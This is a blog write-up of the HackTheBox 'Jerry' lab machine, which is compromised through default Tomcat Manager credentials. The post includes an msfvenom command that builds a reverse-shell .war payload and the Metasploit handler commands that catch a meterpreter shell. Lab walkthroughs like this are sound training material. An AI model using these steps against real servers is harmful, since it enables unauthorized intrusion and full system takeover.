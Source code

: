 ```yaml
---
layout: post
title: HackTheBox - Jerry
categories: htb
permalink: /htb-jerry
---
```


![BoxInfo]({{ site.baseurl }}/assets/htb-images/jerry/infocard.png)

Starting off with nmap to determine what ports are open, what services are running on the ports and what are their versions, thus determining the target !

![nmap]({{ site.baseurl }}/assets/htb-images/jerry/nmap.jpg)

So there is only 1 port open, which is: 

+ *8080 http Apache Tomcat*

Let's look at the web page and do some enumeration to find any vulnerabilities.

![index.html]({{ site.baseurl }}/assets/htb-images/jerry/index.html.jpg)

It looks like you this is the default apache tomcat page running version 7.0.88. There are also 3 other web pages; Server Status, Manager App, Host Manager. From experience I know that Host Manager will redirect me to Manager App once I log in successfully, so I will skip it. Let's see what we can find in Server Status page.

As I tried to access the page a login prompt popped up, as usual, but I was able to guess the default credentials **(admin:admin)**. Once I accessed the page I was able to see what is the Hostname of the machine, OS name and version and system architecture.

![serverstatus]({{ site.baseurl }}/assets/htb-images/jerry/serverstatus.jpg)

I now know with which OS I have to deal. Now, went back to index.html, and tried to login to Manager App. And here I found something interesting. The developer left the default credentials, and tomcat was nice enough to show the default error screen, when I tried to login with wrong username and password.

![defaultcreds]({{ site.baseurl }}/assets/htb-images/jerry/defaultcreds.jpg)

I grabbed the credentials from the error page and tried to login to the Manager App, and... Success !

![managerapp]({{ site.baseurl }}/assets/htb-images/jerry/managerapp.jpg)

As I'm now logged in as admin, Tomcat has a feature to upload .war files, which I am able to exploit by using msfvenom to generate a reverse shell with .war extension. War files are also like zip files, they store other files inside it, and by this it means that once I upload a war file to tomcat and try to access it, instead of getting the reverse shell immediately, I will have to specify the actual .jsp file inside the war file. And I can do this by simply unzipping the war file to see the actual payload file.

![revshellwar]({{ site.baseurl }}/assets/htb-images/jerry/revshellwar.jpg)

```shell
#MSFVenom command to generate .war malicious file.
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f war -o ev1l.war
```
 
I opened Metasploit and set the handler I need to use, after that i set the payload and the options to be able to get a connection back.

```shell
#In Metasploit
$ use multi/handler
$ set payload windows/x64/meterpreter/reverse_tcp
$ set LHOST <LocalIP>
$ set LPORT 4444
$ exploit
```

Once I uploaded the file I unzipped it on my box, checked the jsp file name and accessed it in the web browser to trigger the payload and get reverse shell.

![fileinweb]({{ site.baseurl }}/assets/htb-images/jerry/fileinweb.jpg)

![revshellopen]({{ site.baseurl }}/assets/htb-images/jerry/revshellopen.jpg)

As I now have a meterpreter reverse shell in metasploit I can check now what user I have access to. And it turns out that I was logged in as NT AUTHORITY\SYSTEM. Game Over !

![root&user]({{ site.baseurl }}/assets/htb-images/jerry/root-user.jpg)

That's how you do Jerry from HackTheBox !

